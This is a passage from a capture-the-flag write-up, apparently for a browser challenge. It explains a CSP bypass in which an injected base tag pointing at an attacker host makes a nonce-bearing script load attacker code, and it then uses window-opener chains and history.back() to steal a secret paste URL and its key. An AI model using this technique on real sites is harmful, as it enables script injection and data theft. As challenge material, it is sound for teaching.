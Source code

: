 Paste this into [CSP Evaluator](https://csp-evaluator.withgoogle.com/) and you will see that `base-uri` is missing here, so we can use the classic `<base href="https://attacker.host">` combined with `<iframe srcdoc="<script src='/x'></script>"></iframe>` to bypass right?

If you tried this and you will still get a CSP error because it is missing a `nonce`, so this doesn't work.

The intended CSP bypass is to notice that the page use `window.onload` assignment here:

```javascript
window.onload = () => {
    const id = new URLSearchParams(location.search).get('id')
    const script = document.createElement('script')
    script.src = `/api/pastes/${id}?callback=load`
    script.nonce = '<%= nonce %>'
    document.body.appendChild(script)
}
```

As you can see, what it does is to load a script **nonce**. So after the `<base href="https://attacker.host">` tag has been injected, we can use `w2` to call `opener.onload` then it will try to load `https://attacker.host/api/pastes/...` without error -> XSS!

### Stealing the secret paste

Remembered the `attacker -> w1 -> w2` window references chain? Now we have arbitrary XSS on `w1`, but how to steal the secret paste?

It is actually quite easy if you notice that it uses the same tab to load attacker's page and the secret paste, so a simple `history.back()` will make `attacker` tab go back to the secret paste. So will only need to steal `opener.location.href` from `w1` to solve this challenge.

### About my exploit

My exploit is located in [exp](./exp) folder. To run, simply `python expserver.py` and you may need to use ngrok-like service to expose your local server to the internet with HTTPS. Send the public URL to the bot and it then you will get the full url of that secret paste (including decryption key).

Due to some implementation laziness in the crypto part, it may not always success, but just submit the url again and it will work eventually.

## Appendix

### Why not Chromium?

The main blocker of my exploit working on Chromium is because they have a stricter check for RSA keys (using BoringSSL) [here](https://source.chromium.org/chromium/chromium/src/+/main:third_party/boringssl/src/crypto/fipsmodule/rsa/rsa_impl.c;l=88-106;drc=26f382174adc04c0d92e7dff24c6aed5d5e0246b). It it meant to mitigate DoS attacks by forcing $e$ being less than 33 bits, but this also blocked my exploit. :sad:

### Why not Firefox 106+?

Most of my exploit still works in Firefox 106+, but the *Stealing the secret paste* part doesn't work for some unknown reasons. I tested it and found that when the `attacker` tab use `history.back()`, then the `opener` in `w1` will simply become `null`. I am not sure if this is a Firefox bug or a new privacy feature, but it is still a blocker for my exploit.
